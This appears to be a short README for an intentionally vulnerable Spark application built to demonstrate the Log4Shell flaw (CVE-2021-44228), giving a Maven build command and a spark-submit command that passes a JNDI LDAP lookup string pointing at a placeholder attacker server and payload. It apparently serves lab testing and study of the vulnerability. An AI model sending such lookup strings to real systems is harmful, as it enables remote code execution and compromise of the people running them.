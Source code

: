 # Log4Shell sample vulnerable Spark application (CVE-2021-44228)

This is a vulnerable Spark application.

## How to build
`mvn clean package`

## How to execute
`spark-submit target/log4shell-vulnerable-spark-app-0.1.0-SNAPSHOT.jar ${jndi:ldap://<ldap-server-ip>:1389/<payload>`

Note that you might have to escape the curly braces in your shell.
